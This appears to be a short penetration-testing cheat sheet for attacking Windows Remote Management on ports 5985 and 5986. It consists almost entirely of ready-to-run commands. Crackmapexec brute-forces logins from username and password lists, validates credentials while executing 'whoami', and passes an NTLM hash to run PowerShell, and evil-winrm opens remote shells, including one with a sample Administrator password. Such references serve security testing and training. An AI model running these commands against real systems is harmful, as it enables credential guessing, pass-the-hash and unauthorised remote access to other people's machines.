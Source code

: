 # Windows Remote Management

*Listen on one of two ports:*

- **5985/tcp (HTTP)**
- 5986/tcp (HTTPS)

### Brute force

```
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Just check a pair of credentials
### Username + Password + CMD command execution

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
```

### Username + Hash + PS command execution
### Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
```

```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

```
evil-winrm -i <remoteIP> -u 'username' -p 'password'
```
